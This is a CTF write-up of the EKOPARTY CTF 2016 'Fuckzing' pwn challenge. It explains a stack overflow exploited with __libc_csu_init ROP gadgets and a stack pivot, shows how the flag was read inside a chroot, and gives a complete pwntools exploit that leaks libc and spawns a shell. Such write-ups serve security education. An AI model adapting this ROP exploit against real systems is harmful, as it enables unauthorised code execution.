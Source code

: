 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/ekoparty-ctf-2016-fuckzing-exploit/
  - /blog/2016/10/29/ekoparty-ctf-2016-fuckzing-exploit/
date: "2016-10-29T13:00:47+09:00"
tags: [ "ctf", "writeup", "ekoparty-ctf", "pwn", "rop", "stack-pivot", "libc-csu-init" ]
"target_url": [ "https://ctf.ekoparty.org/tasks/pwn/200" ]
---
```


# EKOPARTY CTF 2016: Fuckzing exploit

-   Sun Oct 30 00:19:55 JST 2016
    -   I heard that the string for the rev-250 was unnecessary to cause buffer overflow.

## problem

The binary is same to the rev-250, Fuckzing rev-250, but the filter on server doesn't exist.
You should solve rev-250 first.

## solution

To call `system("/bin/sh")`, it's not difficult. There are stack overflow vulnerability, and you can do return-oriented-programming with `__libc_csu_init` and stack-pivot.

However, I spent much time after taking the shell.
The difficulties are below:

-   I couldn't use `/bin/sh` interactively (why?)
-   It is `chroot`-ed and there are only $2$ binaries: `/bin/sh` and `/bin/ls`
-   And you cannot `cat flag.txt`

And I got the flag using the shell-builtin command `.`. It reports the contents of a file as error message.

```
# /bin/ls -l
total 84\n
-rw-r--r--  1 fuck 1002     0 Oct 27 18:47 ?@
-rw-r--r--  1 fuck 1002     0 Oct 27 20:42 ???????????????
-rw-r--r--  1 fuck 1002     0 Oct 27 20:39 -?M@+LQ}Z2??V??Cw+??}????d4???
-rwxr-xr-x  1 root    0 30640 Oct 21 15:52 FUck_binary
-rw-r--r--  1 fuck 1002     0 Oct 27 20:37 V?[??????fp?
-rw-r--r--  1 fuck 1002     2 Oct 28 07:38 a
drwxr-xr-x  2 root    0  4096 Oct 27 15:50 bin
drwxr-xr-x 19 root    0  4320 Aug 22 13:14 dev
drwxr-xr-x  3 root    0  4096 Oct 21 16:06 etc
-rw-r--r--  1 root    0    20 Oct 21 16:16 flag.txt
-rw-r--r--  1 fuck 1002     1 Oct 28 12:29 hoge
drwxr-xr-x  3 root    0  4096 Oct 20 21:16 home
-rw-r--r--  1 fuck 1002 10252 Oct 28 00:56 index.html
-rw-r--r--  1 fuck 1002     0 Oct 27 20:42 k??T???Y?p?
drwxr-xr-x  3 root    0  4096 Oct 20 20:56 lib
drwxr-xr-x  2 root    0  4096 Oct 20 20:57 lib64
drwxr-xr-x  2 root    0  4096 Oct 21 09:21 proc
drwxr-xr-x  5 root    0  4096 Oct 20 22:30 usr
-rw-r--r--  1 fuck 1002     0 Oct 27 20:43 ???T?BTK??*?????????????J??W
-rw-r--r--  1 fuck 1002     0 Oct 27 20:37 ????mW#???????Cq?????d???????????
-rw-r--r--  1 fuck 1002     0 Oct 27 20:37 ??H??5m8??
-rw-r--r--  1 fuck 1002     0 Oct 27 20:38 ??
-rw-r--r--  1 fuck 1002     0 Oct 27 20:44 ????t?]???Fx?
```

``` sh
# /bin/ls -l /bin
total 276
-rwxr-xr-x 1 root 0 126584 Oct 27 15:45 ls
-rwxr-xr-x 1 root 0 154072 Oct 27 15:50 sh
```

``` sh
# . flag.txt
/bin/sh: 1: ./flag.txt: EKO{AFL_found_this}: not found
```

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='7e0a98bb084ec0937553472e7aafcf68ff96baf4.ctf.site')
parser.add_argument('port', nargs='?', default=10000, type=int)
args = parser.parse_args()
context.log_level = 'debug'

elf = ELF('FUck_binary')
libc = ELF('libc.so.6') # Ubuntu 16.04, d443f227870b9c29182cc7a7a007d881
libc_csu_init_a = 0x405660
libc_csu_init_b = 0x40567a
pop_rsp_r13_r14_r15_ret =  0x40567d # pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
static = 0x606000
next_stack = static + 0x1000 - 0x200
buffer = static + 0x1000 - 0x90

# p = process('./FUck_binary', env={ 'LD_LIBRARY_PATH': '.' }) # with ./libget_flag.so
p = remote(args.host, args.port)

p.recvuntil("Hello, what's your team name? ")
payload = ''
payload += '\x80@@\x88\xa6  @ \x86@v@   /\x96vC\x80p D AC``@`v 0  \x87\x80   @X@ @@\x80`@h \x9d@  W@UB \x80( \x8cq@@ \x80\x80 F$tH  6  J B k[Q` @@@Xp, I @\x80 @             \x80  \x80 @          ' # found using angr (rev 250)
payload += 'AAAAAAAA' # rbp
payload += p64(libc_csu_init_b) # rip
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(elf.got['read']) # r12 -> rip
payload += p64(1024) # r13 -> rdx
payload += p64(next_stack) # r14 -> rsi
payload += p64(0) # r15 -> edi
payload += p64(libc_csu_init_a)
payload += 'AAAAAAAA' # add rsp, 8
payload += 'AAAAAAAA' # rbx
payload += 'AAAAAAAA' # rbp
payload += 'AAAAAAAA' # r12
payload += 'AAAAAAAA' # r13
payload += 'AAAAAAAA' # r14
payload += 'AAAAAAAA' # r15
payload += p64(pop_rsp_r13_r14_r15_ret) # rip
payload += p64(next_stack) # rsp
p.send(payload)

time.sleep(1)
payload = ''
payload += 'AAAAAAAA' # r13
payload += 'AAAAAAAA' # r14
payload += 'AAAAAAAA' # r15
payload += p64(libc_csu_init_b) # rip
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(elf.got['write']) # r12 -> rip
payload += p64(8) # r13 -> rdx
payload += p64(elf.got['setvbuf']) # r14 -> rsi
payload += p64(1) # r15 -> edi
payload += p64(libc_csu_init_a)
payload += 'AAAAAAAA' # add rsp, 8
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(elf.got['read']) # r12 -> rip
payload += p64(1024) # r13 -> rdx
payload += p64(buffer) # r14 -> rsi
payload += p64(0) # r15 -> edi
payload += p64(libc_csu_init_a)
payload += 'AAAAAAAA' # add rsp, 8
payload += p64(0) # rbx
payload += p64(1) # rbp
payload += p64(buffer) # r12
payload += p64(buffer + 0x8) # r13
payload += p64(buffer + 0x10) # r14
payload += p64(buffer + 0x40) # r15
payload += p64(libc_csu_init_a)
p.send(payload)

p.recvuntil('Goodbye!')
setvbuf = u64(p.recv(8))
libc_base = setvbuf - libc.symbols['setvbuf']
log.info('setvbuf: %#x', setvbuf)
log.info('libc base: %#x', libc_base)
payload = ''
payload += p64(libc_base + libc.symbols['execve']) # 0x0
payload += p64(0) # 0x8, envp[0]
payload += p64(buffer + 0x40) # 0x10, argv[0]
payload += p64(buffer + 0x50) # 0x18
payload += p64(buffer + 0x60) # 0x20
payload += p64(0) # 0x28
payload += p64(0) # 0x30
payload += p64(0) # 0x38
payload += '/bin/sh\0' # 0x40
payload += '\0' * (0x50 - len(payload))
payload += '-c\0' # 0x50
payload += '\0' * (0x60 - len(payload))
payload += '. ./flag.txt\0' # 0x60
p.send(payload)

print p.recvall()
```
